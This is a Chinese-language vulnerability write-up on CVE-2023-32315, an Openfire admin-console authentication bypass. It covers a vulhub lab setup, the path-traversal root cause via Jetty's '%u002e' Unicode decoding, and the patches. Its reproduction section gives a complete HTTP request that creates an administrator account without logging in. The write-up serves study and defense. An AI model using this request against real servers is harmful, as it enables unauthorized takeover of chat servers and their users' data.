





- [CVE-2023-32315 Openfire管理后台认证绕过](#cve-2023-32315-openfire管理后台认证绕过)
  - [影响版本](#影响版本)
  - [环境搭建](#环境搭建)
  - [漏洞原理](#漏洞原理)
    - [AuthCheckFilter](#authcheckfilter)
    - [Unicode on Jetty](#unicode-on-jetty)
  - [漏洞复现](#漏洞复现)
  - [补丁](#补丁)
  - [参考](#参考)

# CVE-2023-32315 Openfire管理后台认证绕过
## 影响版本
4.7.4和4.6.7及以前
## 环境搭建
```yaml
version: '3'
services:
 web:
   image: vulhub/openfire:4.7.4
   ports:
    - "9090:9090"
```
## 漏洞原理
### AuthCheckFilter
OpenFire的权限校验主要通过Filter进行处理,在web.xml中,可以看到`AuthCheckFilter` ,对应的Class位于`org.jivesoftware.admin.AuthCheckFilter`,其中含有一个`excludes`参数,其中包括了一些不需要权限校验就能访问的资源路径,其中有一个值`setup/setup-*`的路径.
  
来到`AuthCheckFilter`,可以看到处理逻辑就是将请求的url和excludes中的路径进行判断,如果符合`excludes`中的路径也就是不用权限就能访问的资源,就会继续进入下一个Filter,不然就会跳转到登录页面进行登录.  
  
来到进行判断的方法`testURLPassesExclude`中,可以看到如果是以`*`结尾的白名单路径也就是`setup/setup-*`路径,如果以`setup/setup-`开头,且不含常见的路径穿越字符`..`,`%2e`的话那么就认为该路径命中了`setup/setup-*`这条规则,那么就不需要授权,返回为True.  
  
### Unicode on Jetty  
正常来说无法通过`../`来进行路径穿越访问授权资源,然而OpenFire使用的Web服务器是Jetty,而Jetty支持对url进行unicode解码,这就导致可以用unicode编码的`%u002e%u002e`来代替`..`进行路径穿越访问到需要授权的资源.  
## 漏洞复现
  

添加管理员:  
```http
GET /setup/setup-s/%u002e%u002e/%u002e%u002e/user-create.jsp?csrf=csrftoken&username=hackme&name=&email=&password=hackme&passwordConfirm=hackme&isadmin=on&create=Create+User HTTP/1.1
Host: localhost:9090
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/114.0.5735.91 Safari/537.36
Connection: close
Cache-Control: max-age=0
Cookie: csrf=csrftoken
```

## 补丁
* 在 Openfire 4.6.8、4.7.5 和 4.8.0 中，路径遍历模式检测已得到改进，包括对非标准 URL 编码的检测，从而防止任何非 UTF-8 字符。
* 在 Openfire 4.6.8、4.7.5 和 4.8.0 中，引入了一个新的配置属性 （），用于控制在定义身份验证排除项的 URL 模式中使用通配符的允许性。adminConsole.access.allow-wildcards-in-excludes
* 在 Openfire 4.6.8、4.7.5 和 4.8.0 中，在定义身份验证排除项的 URL 模式中使用通配符的现有值已替换为不依赖于通配符的值。
* 在 Openfire 4.6.8、4.7.5 和 4.8.0 中，定义身份验证排除项的特定于安装程序的 URL 模式在设置过程完成后不再处于活动状态。
* 在 Openfire 4.8.0 中，嵌入式 Web 服务器将更新为不再支持 UTF-16 字符的非标准 URL 编码的版本。
## 参考  
https://github.com/advisories/GHSA-gw42-f939-fhvm  
https://github.com/vulhub/vulhub/blob/master/openfire/CVE-2023-32315/README.zh-cn.md  
https://mp.weixin.qq.com/s/EzfB8CM4y4aNtKFJqSOM1w